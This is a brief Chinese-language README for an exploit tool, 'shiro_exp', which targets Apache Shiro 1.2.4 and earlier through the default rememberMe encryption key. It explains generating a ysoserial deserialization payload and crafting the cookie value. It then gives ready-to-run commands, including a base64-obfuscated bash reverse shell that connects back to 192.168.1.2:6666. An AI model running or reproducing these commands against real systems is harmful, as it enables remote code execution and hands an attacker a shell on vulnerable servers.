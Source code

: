 # shiro_exp
目前支持java环境：1.8 11<br/>
shiro&lt;=1.2.4默认密钥加密exp，利用yeoserial工具生成反序列化payload，通过shiro_exp生成rememberme字段值，构造数据包实施攻击

# getshell
java -jar ysoserial-all.jar CommonsBeanutils1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMi82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}" > poc.ser<br/>
java -jar shiro_exp >./getshell.txt
